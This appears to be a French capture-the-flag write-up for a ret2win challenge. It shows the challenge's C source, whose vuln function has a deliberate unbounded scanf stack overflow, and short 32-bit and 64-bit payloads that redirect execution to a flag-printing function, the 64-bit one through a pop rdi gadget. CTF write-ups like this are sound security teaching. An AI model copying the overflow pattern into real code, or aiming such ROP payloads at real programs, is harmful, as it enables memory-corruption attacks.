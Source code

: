 # I wanna pwn you tonight

## Enoncé
```
   Vous continuez de cliquer sur la meilleure catégorie ? J'ai un flag pour vous, rien de bien compliqué. Il vous suffit d'appeler une fonction avec le bon argument en 32 et 64 bits. Facile pas vrai ? Mais ça reste entre nous.
```
## Reverse
Le code source du  challenge étant fourni, il n'y a pas beaucoup de rétro-ingénierie à faire de notre côté.

```c
#include <stdio.h>
#include <stdlib.h>

void display_banner() {
  puts(" __     ____    __    ____  ___      .__   __. .__   __.      ___         .______   ____    __    ____ .__   __.    ____    ____  ______    __    __     .___________.  ______   .__   __.  __    _______  __    __  .___________.");
  puts("|  |    \\   \\  /  \\  /   / /   \\     |  \\ |  | |  \\ |  |     /   \\        |   _  \\  \\   \\  /  \\  /   / |  \\ |  |    \\   \\  /   / /  __  \\  |  |  |  |    |           | /  __  \\  |  \\ |  | |  |  /  _____||  |  |  | |           |");
  puts("|  |     \\   \\/    \\/   / /  ^  \\    |   \\|  | |   \\|  |    /  ^  \\       |  |_)  |  \\   \\/    \\/   /  |   \\|  |     \\   \\/   / |  |  |  | |  |  |  |    `---|  |----`|  |  |  | |   \\|  | |  | |  |  __  |  |__|  | `---|  |----`");
  puts("|  |      \\            / /  /_\\  \\   |  . `  | |  . `  |   /  /_\\  \\      |   ___/    \\            /   |  . `  |      \\_    _/  |  |  |  | |  |  |  |        |  |     |  |  |  | |  . `  | |  | |  | |_ | |   __   |     |  |     ");
  puts("|  |       \\    /\\    / /  _____  \\  |  |\\   | |  |\\   |  /  _____  \\     |  |         \\    /\\    /    |  |\\   |        |  |    |  `--'  | |  `--'  |        |  |     |  `--'  | |  |\\   | |  | |  |__| | |  |  |  |     |  |     ");
  puts("|__|        \\__/  \\__/ /__/     \\__\\ |__| \\__| |__| \\__| /__/     \\__\\    | _|          \\__/  \\__/     |__| \\__|        |__|     \\______/   \\______/         |__|      \\______/  |__| \\__| |__|  \\______| |__|  |__|     |__|     ");
  puts("                                                                                                                                                                                                                                  ");
}

void pwned(int arg) {
  printf("\n");
  if (arg == 0xdeadbeef) {
    char flag[50];
    FILE* f = fopen("flag.txt", "r");
    if (f == NULL) {
      printf("Fichier flag introuvable, contactez un administrateur");
    }
    else {
      fread(flag, 1, 50, f);
      flag[34] = '\00';
      fclose(f);
      if (arg != 0xdeadbeef) {
        puts("Oh allez, faites le de manière legit ;)");
        exit(0);
      }
      puts(flag);
      exit(0);
    }
  }
}

void vuln() {
  char buf[32];
  puts("I wanna pwn you tonight");
  printf("Do you ? ");
  scanf("%s", &buf);
  return;
}

int main() {
  setvbuf(stdin,NULL,_IONBF,0);
  setvbuf(stdout,NULL,_IONBF,0);
  display_banner();
  vuln();
  puts("Pas de pwn, pas de flag !");
  puts("Shame");
  return 0;
}


```

On remarque assez rapidement la présence de la fonction `pwned`, qui prend un entier en paramètre. Si l'entier se trouve être égal à `0xdeadbeef`, elle lit le fichier `flag.txt` et l'affiche à l'écran. Cependant, cette fonction n'est jamais appelée.

Heureusement pour nous, la fonction `vuln` qui est appelée par le main ne vérifie pas la taille de la chaîne de caractères qu'elle récupère auprès de l'utilisateur.

```c
void vuln() {
  char buf[32];
  puts("I wanna pwn you tonight");
  printf("Do you ? ");
  scanf("%s", &buf); // <---- Pas de vérification du nombre de caractères entrés
  return;
}
```

A partir de ces observations, on comprends que le challenge consiste en une simple exploitation de type ret2win. La seule différence entre les deux binaires sera la manière dont nous passerons les arguments.

## Exploitation 32-bits

La première étape est de trouer combien d'octets nous devons mettre dans notre buffer avant que le programme ne segfault. Après quelques tests en local, on trouve qu'il nous faut écrire 44 octets avant d'écraser la sauvegarde d'eip. Une fois la sauvegarde d'eip écrasée, on écrit un DWORD de zeros (qui deviendra l'adresse de retour si jamais nous rencontrons une instruction `ret` en parcourant `pwned`, mais la fonction `exit` est de toute façon appelée avant.  On écrit ensuite un DWORD  avec la valeur `0xdeadbeef` qui sera l'argument de notre fonction.

```python
rop.raw(b"A"*44)
rop.raw(p32(0x0804925f)) # addresse de pwned()
rop.raw(p32(0))
rop.raw(p32(0xdeadbeef))
```



## Exploitation 64-bits

La seconde étape du challenge consiste à exploiter le même programme, cette fois-ci compilé en 64-bits. Les étapes à suivre seront globalement les mêmes, à la différence prêt que l'argument de pwn devra se trouver dans `rdi` et non sur la stack. Nous allons donc devoir trouver un gadget `pop rdi ; ret` afin de pouvoir contrôler le contenu de ce registre. Il y a plusieurs moyen de procéder, mais j'utilise `ROPgadget` pour ce writeup.

![Screenshot](I_wanna_pwn_you_tonight_1.png)

```python
rop.raw(b"A"*40)
rop.raw(p64(0x00000000004011f2)) # pop rdi ; ret
rop.raw(p64(0xdeadbeef))
rop.raw(p64(0x00000000004011e7)) # addresse de pwned()
```

NB : L'adresse de ce gadget n'est pas forcément celle présente sur le binaire du CTF. C'est normal mon compilateur est davantage à jour ;).
